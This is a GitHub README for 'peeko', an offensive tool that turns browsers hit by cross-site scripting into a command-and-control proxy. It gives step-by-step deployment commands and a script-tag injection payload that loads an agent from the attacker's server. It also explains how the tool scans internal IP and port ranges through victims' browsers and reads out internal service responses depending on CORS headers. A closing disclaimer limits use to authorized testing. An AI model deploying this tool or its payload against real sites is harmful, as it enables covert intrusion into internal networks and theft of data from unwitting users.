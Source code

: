 # peeko

**Version:** v1.0

peeko is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeko establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, and exfiltrate data — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and multiple victims  
- Victim’s browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:  
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Log viewer with copy/save functionality  
- Self-signed HTTPS support with auto-generated certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeko.git
    cd peeko
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. (Optional) Make scripts executable if needed:

    ```bash
    chmod +x gen-cert.sh start.sh
    ```

4. Generate a self-signed TLS certificate:

    ```bash
    make cert
    ```

5. Replace the `SERVER-IP` placeholder:

    Open the following files and replace all occurrences of `SERVER-IP` with the actual IP address or domain of your machine:

    - `static/agent.js`
    - `static/control.html`

    Example:

    ```javascript
    wss://SERVER-IP:8443/ws → wss://192.168.1.12:8443/ws
    ```

6. Run the server:

    ```bash
    make run
    ```

7. Open your browser and access the control panel:

    ```
    https://SERVER-IP:8443/static/control.html
    ```

8. Inject the XSS payload (example):

    ```html
    <script src="https://SERVER-IP:8443/static/agent.js"></script>
    ```
---

## Usage

### Control Panel

- Choose a connected victim from the dropdown  
- Input a manual URL to fetch via the victim  
- Specify an IP range (e.g. `192.168.1.10-20` or `192.168.1.0/24`) and ports (e.g. `80,8080,3000-3010`) to scan  
- Results will appear in the log viewer:  
  - HTTP status  
  - Body preview 
- You can copy the log or save it as `.txt` or `.json`  

---

### SERVER-IP Placeholder

In both `agent.js` and `control.html`, the WebSocket connection points to:

```javascript
wss://SERVER-IP:8443/ws
```

**Before deploying**, replace `SERVER-IP` with your actual IP address (e.g. `192.168.1.12` or a public IP/domain). This ensures the victim browser and control panel can communicate with your server over HTTPS.

---


## Project Structure

```
peeko/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Inject the payload into a vulnerable web application  
2. Victim’s browser loads the agent and connects to your peeko server  
3. From the control panel, you issue commands to fetch URLs or scan targets  
4. peeko logs and returns the content of internal services  

---

## Use Cases

- Internal network exploration through browser footholds  
- LAN service enumeration from inside the victim’s network   

---

## CORS Behavior

peeko uses `fetch()` from within the victim’s browser to request internal web services.  
However, modern browsers enforce **CORS (Cross-Origin Resource Sharing)** policies that determine whether the attacker can read the response.

In real-world environments (e.g., internal apps during a penetration test), the outcome depends on the CORS headers:

| Response Header                          | Works? | Explanation                                                |
|------------------------------------------|--------|------------------------------------------------------------|
| `Access-Control-Allow-Origin: *`         | ✅     | You can read the full response body and status code.       |
| _No_ `Access-Control-Allow-Origin`       | ⚠️     | The request succeeds, but the response is opaque.          |
| Restrictive CORS (e.g., specific domains)| ❌     | The browser blocks the response or hides its contents.     |

### In practice

During a penetration test, if you find an internal service that responds with `Access-Control-Allow-Origin: *`, then **peeko becomes a stealth proxy**, capable of exfiltrating internal data directly from the victim's browser without dropping any files or opening outbound connections.

---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeko outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

- **b3rito** – [https://github.com/b3rito](https://github.com/b3rito)  
- **GioPpeTto**
